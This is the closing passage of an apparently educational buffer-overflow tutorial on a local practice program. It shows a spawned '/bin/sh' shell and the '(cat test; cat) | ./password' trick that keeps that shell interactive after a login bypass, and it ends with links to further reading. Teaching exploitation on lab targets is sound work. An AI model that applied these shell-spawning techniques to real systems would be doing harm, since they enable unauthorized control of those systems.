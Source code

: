 GDB can sometimes be a little bit glitchy when it comes to spawning shells, so we're unable to type commands to the program even though the call to `system("/bin/sh")` was successful. Let's try running this code outside of GDB.

```sh
$ ./password < test
Enter the password: Invalid password.
You entered in the correct password!
zsh: segmentation fault  ./password < test
```

We're still unable to spawn a shell from this. The reason that no shell is being spawned is because we have used the input redirector to redirect input for `STDIN` to come from the test file instead of from the keyboard. We can use a little trick with the `cat` command to get around this annoying situation.

```sh
$ (cat test; cat) | ./password

Enter the password: Invalid password.
You entered in the correct password!
ls
password  password.c  README.md  test
echo "Wow the buffer overflow worked!!!"
Wow the buffer overflow worked!!!
```

Congratulations! You have successfully conducted your first buffer overflow! Not only were you able to bypass the login system for this program, but you were also able to spawn a shell that gave you complete control over the system!

## More Resources:
- [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html)
- [Stack Frame](https://en.citizendium.org/wiki/Stack_frame)
- [x86_64 Calling Convention](https://aaronbloomfield.github.io/pdr/book/x86-64bit-ccc-chapter.pdf)
- [GDB User Manual](https://sourceware.org/gdb/current/onlinedocs/gdb/)
- [GEF Documentation](https://gef.readthedocs.io/en/master/)


Enjoy :metal:
